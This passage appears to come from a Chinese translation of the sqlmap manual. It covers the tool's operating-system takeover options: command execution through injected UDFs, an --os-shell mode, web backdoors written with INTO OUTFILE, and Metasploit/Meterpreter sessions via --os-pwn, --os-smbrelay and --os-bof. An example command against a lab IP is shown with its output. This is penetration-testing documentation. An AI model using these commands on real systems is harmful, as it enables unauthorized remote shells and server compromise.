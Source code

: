 ```
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

你也可以使用参数`–os-shell`来模拟一个真正的shell，和`–sql-shell`一样这个shell也可以用Tab键补全，支持历史记录。

如果Web应用程序中不支持堆查询（例如PHP或ASP，后端数据库管理系统为MySQL）且DBMS是MySQL，slqmap会利用`SELECT`子语句`INTO OUTFILE`在服务器可写目录常见一个web后门，通过这种方式来执行命令，当然前提是数据库和web应用程序在同一台服务器上。sqlmap还允许用户提供用逗号分割的可写目录的路径。此外，sqlmap有以下语言的经过测试的Web后门程序：
- ASP
- ASP.NET
- JSP
- PHP

#### **3.13.2 Meterpreter配合使用**

> 参数和开关 --os-pwn，--os-smbrelay，--os-bof，--priv-esc，--msf-path和--tmp-path

当后端数据库管理系统是MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有相应权限时，sqlmap可以在攻击者机器和数据库所在服务器之间建立带外状态TCP连接，根据用户的选择，此连接可以是交互式命令shell，Meterpreter会话或图形用户界面（VNC）会话。

sqlmap依靠Metasploit来创建shellcode并使用4种方式来执行它。这些技术是：
1. 通过用户自定义的`sys_bineval()`函数在内存中执行Metasplit的shellcode，支持MySQL和PostgreSQL数据库。参数：`--os-pwn`
2. 通过用户自定义的函数(MySQL和PostgreSQL的`sys_exec()`函数，Microsoft SQL Server的xp_cmdshell()函数)来上传并执行 Metasploit的`stand-alone payload stager`。参数：`--os-pwn`
3. 通过SMB攻击(MS08-068)来执行Metasploit的shellcode，要求sqlmap获取到的权限足够高（Linux/Unix的uid=0，Windows是Administrator）。参数：`--os-smbrelay`
4. 通过Microsoft SQL Server 2000和2005的sp_replwritetovarbin存储过程(MS09-004)溢出漏洞，在内存中执行Metasploit的payload，sqlmap有自己的漏洞利用自动DEP内存保护绕过来触发漏洞，但它依赖于Metasploit来生成shellcode，以便在成功利用后执行。参数：`--os-bof`

这些技术可详细参考[ Advanced SQL injection to operating system full control](https://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)

针对MySQL目标的示例：
```
python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?id=1" --os-pwn --msf-path /software/metasploit
```
结果：
```

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
```